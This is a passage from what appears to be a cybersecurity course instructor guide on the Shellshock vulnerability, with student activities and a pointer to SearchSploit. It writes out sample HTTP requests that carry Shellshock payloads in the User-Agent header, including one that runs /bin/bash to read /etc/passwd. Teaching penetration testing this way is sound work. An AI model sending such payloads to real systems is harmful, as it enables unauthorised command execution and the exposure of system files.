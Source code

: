 - For example: the modified request below will run `echo "haxxed"`.

  ```bash
  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; echo "haxxed"
  Connection: keep-alive
  ```

Some malicious codes can open TCP connections back to your machine or show user passwords.

   - For example: 

   ```bash
   GET /index.html HTTP/1.1
   Host: example.com
   User-Agent: () { :;}; /bin/bash -c 'cat /etc/passwd'
   Connection: keep-alive
   ```

Note the syntax  and explain that Shellshock payloads are often executed with the following template:

- `/bin/bash -c 'command'` runs the string `'command'` as a Bash command. This is different from passing a command directly because of how Bash handles the output. 

- Using `/bin/bash -c` helps preserve `stdout` more consistently.

Take a moment to address any remaining questions before proceeding.


### 02. Student Do: Shellshock Payloads (0:20)

Explain the following to students:

- In this activity, you will play the role of a penetration tester evaluating a client's machine for the Shellshock vulnerability. 

- You are tasked with using a template script to create custom exploits for the Shellshock vulnerability.

Share the following activity file out to students:

- [Activity File: Shellshock Payloads](activities/02_Shellshock_Payload/Unsolved/README.md)


### 03. Instructor Review: Shellshock Payloads Activity (0:10)

Explain that this activity required students to inject malicious commands into a script that exploits the Shellshock vulnerability. 

Share the following solution guide and use it to guide your review:

- [Solution Guide: Shellshock Payloads](activities/02_Shellshock_Payload/Solved/README.md)


### 04. Instructor Do: SearchSploit (0:20)

Explain that in the previous activity we created a custom payload for Shellshock. In this section, we will explore tools that allow us to search for and find existing exploit information from libraries. 

